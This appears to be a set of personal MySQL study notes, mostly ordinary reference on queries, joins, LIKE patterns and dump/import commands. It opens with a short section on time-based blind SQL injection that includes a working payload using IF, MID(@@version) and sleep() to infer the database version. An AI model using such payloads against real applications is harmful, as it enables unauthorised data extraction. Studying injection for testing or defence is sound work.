 In said query, it will check to see if an item exists in the "name" column in the "items" database that starts with an "a". If it will sleep for 3 seconds per item.

### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2


1)describe <table_name> # to see the structure of a table
2)import in cli# mysql -u Username -p dbNameYouWant < databasename_backup.sql;
3)export in clie #mysqldump -u Username -p dbNameYouWant > databasename_backup.sql
4)SHOW CREATE TABLE <table>; #to see the query which was used to create that table with all the structure and stuff
5)SHOW PROCESSLIST; KILL process_number; # show and kill proccess
6)SELECT * FROM table1, table2; # select rows from multiple tables
7)SELECT COUNT(column_name)
FROM table_name
WHERE condition;
#to return the count of number of entries in a column
same way we can do avg and sum and min and max as well

8)% - The percent sign represents zero, one, or multiple characters
_ - The underscore represents a single character

this is used for like statement
ex:WHERE CustomerName LIKE '_r%'	Finds any values that have "r" in the second position
h[^oa]t finds hit, but not hot and hat
c[a-b]t finds cat and cbt

9)SELECT * FROM Customers
WHERE Country IN ('Germany', 'France', 'UK');
SELECT * FROM Customers
WHERE Country NOT IN ('Germany', 'France', 'UK');

#in and not in just like python check if these values in the that columnn and displays only them

10)SELECT * FROM Products
WHERE Price BETWEEN 10 AND 20; # if  the price is between that range select only those rows
SELECT * FROM Products
WHERE Price NOT BETWEEN 10 AND 20;

11)get rows from two tables like this use aliases to make it shorter and easier
SELECT u.*,p.price from users as u,products as p WHERE u.name = 'Amy' AND p.price = 10000

12) inner join to get common
SELECT Orders.OrderID, Customers.CustomerName, Orders.OrderDate
FROM Orders
INNER JOIN Customers ON Orders.CustomerID=Customers.CustomerID;

13)(INNER) JOIN: Returns records that have matching values in both tables
LEFT (OUTER) JOIN: Returns all records from the left table, and the matched records from the right table
RIGHT (OUTER) JOIN: Returns all records from the right table, and the matched records from the left table
FULL (OUTER) JOIN: Returns all records when there is a match in either left or right table

14)left join:
SELECT Customers.CustomerName, Orders.OrderID
FROM Customers
LEFT JOIN Orders ON Customers.CustomerID = Orders.CustomerID
ORDER BY Customers.CustomerName;
```